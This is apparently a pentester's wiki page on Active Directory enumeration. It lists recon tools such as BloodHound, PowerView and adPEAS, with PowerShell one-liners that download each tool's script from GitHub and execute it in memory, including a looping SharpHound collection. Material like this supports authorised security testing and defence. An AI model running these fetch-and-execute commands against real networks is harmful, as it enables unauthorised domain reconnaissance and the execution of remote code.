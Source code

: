 # Active Directory Enumeration

{% hint style="info" %}
This page is a long term work in progress page and will be subject to multiple changes overtime.
{% endhint %}

{% hint style="info" %}
Powerview (Dev) build is used heavily for the following page.
{% endhint %}

## Enumeration Tools

* **adPEAS:** [https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)
* **BloodHound:** [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
* **Invoke-ADEnum:** [https://github.com/Leo4j/Invoke-ADEnum](https://github.com/Leo4j/Invoke-ADEnum)
* **PowerUpSQL:** [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* **Powerview:** [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* **Pywerview:** [https://github.com/the-useless-one/pywerview](https://github.com/the-useless-one/pywerview)

```powershell
# adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1);Invoke-adPEAS

# BloodHound
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup"
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup" -Loop -Loopduration 06:00:00 -LoopInterval 00:15:00

# Invoke-ADEnum
IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum

# PowerUpSQL
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# PowerView
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
```

## Native AD Module
